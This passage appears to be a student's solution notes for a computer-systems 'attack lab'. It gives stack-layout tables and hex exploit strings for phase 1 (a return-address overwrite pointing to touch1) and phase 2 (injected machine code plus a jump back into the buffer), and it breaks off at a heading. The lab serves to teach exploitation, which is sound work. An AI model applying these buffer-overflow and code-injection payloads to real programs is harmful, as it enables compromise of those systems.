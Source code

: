 ## Stack State

| Name        | offset | content     | value[hex string]       | comment |
| ----------- | ------ | ----------- | ----------------------- | ------- |
| caller_0    | 0      |             |                         | rsp     |
| return_addr | -8     | touch1_addr | c0 17 40 00 00 00 00 00 | rip     |
| cbuff_end   | -16    | filler      | ff ff ff ff ff ff ff ff |         |
| cbuff_24    | -24    | filler      | ff ff ff ff ff ff ff ff |         |
| cbuff_16    | -32    | filler      | ff ff ff ff ff ff ff ff |         |
| cbuff_8     | -40    | filler      | ff ff ff ff ff ff ff ff |         |
| cbuff_start | -48    | filler      | ff ff ff ff ff ff ff ff |         |

## The Exploit String

```asm
ff ff ff ff ff ff ff ff   /* cbuff_start: filler */
ff ff ff ff ff ff ff ff   /* cbuff_8:     filler */
ff ff ff ff ff ff ff ff   /* cbuff_16:    filler */
ff ff ff ff ff ff ff ff   /* cbuff_24:    filler */
ff ff ff ff ff ff ff ff   /* cbuff_end:   filler */
c0 17 40 00 00 00 00 00   /* return_addr: touch1_addr */
```

# Phase 2 Solution

## Stack State

| Name        | offset | content      | value[hex string]       | comment |
| ----------- | ------ | ------------ | ----------------------- | ------- |
| caller_0    | 0      |              |                         | rsp     |
| return_addr | -8     | cbuff_start  | 78 dc 61 55 00 00 00 00 |         |
| cbuff_end   | -16    | touch2_addr  | ec 17 40 00 00 00 00 00 |         |
| cbuff_24    | -24    | filler       | ff ff ff ff ff ff ff ff |         |
| cbuff_16    | -32    | filler       | ff ff ff ff ff ff ff ff |         |
| cbuff_8     | -40    | exploit_code | 59 c3 ff ff ff ff ff ff |         |
| cbuff_start | -48    | exploit_code | 48 83 ec 10 bf fa 97 b9 | rip     |

## The Exploit Code
